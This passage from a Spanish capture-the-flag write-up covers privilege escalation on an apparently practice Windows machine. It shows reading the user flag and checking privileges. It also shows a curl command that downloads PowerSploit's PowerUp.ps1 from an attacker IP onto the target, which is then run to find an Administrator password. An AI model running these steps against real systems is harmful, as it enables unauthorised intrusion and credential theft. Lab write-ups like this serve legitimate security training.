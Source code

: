 ## User flag

```bash
PS C:\Windows\system32> type C:\Users\mssql-svc\Desktop\user.txt
e96e197911a391c99a71cd3596542670
PS C:\Windows\system32>
```

## Escalada de Privilegios

- Tenemos el `SeImpersonatePrivilege` `Enable` y podemos usar el <https://github.com/antonioCoco/JuicyPotatoNG> para explotarlo pero no es la principal vía para escalar privilegios de la maquina.

```bash
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

- Lo que podemos hacer para enumerar la maquina es usar <https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1>.

```bash
PS C:\Users\mssql-svc\Desktop> curl -o PowerUp.ps1 10.10.15.11/PowerUp.ps1
PS C:\Users\mssql-svc\Desktop> dir


    Directory: C:\Users\mssql-svc\Desktop


Mode                LastWriteTime         Length Name                   
----                -------------         ------ ----                   
-a----         4/5/2024   9:26 PM         600580 PowerUp.ps1            
-ar---         4/5/2024   7:41 PM             34 user.txt      
```

- Ahora importamos el modulo y lo ejecutamos.

```bash
PS C:\Users\mssql-svc\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\mssql-svc\Desktop> Invoke-AllChecks
```

- Después de ejecutarse nos da una contraseña para el usuario Administrador.
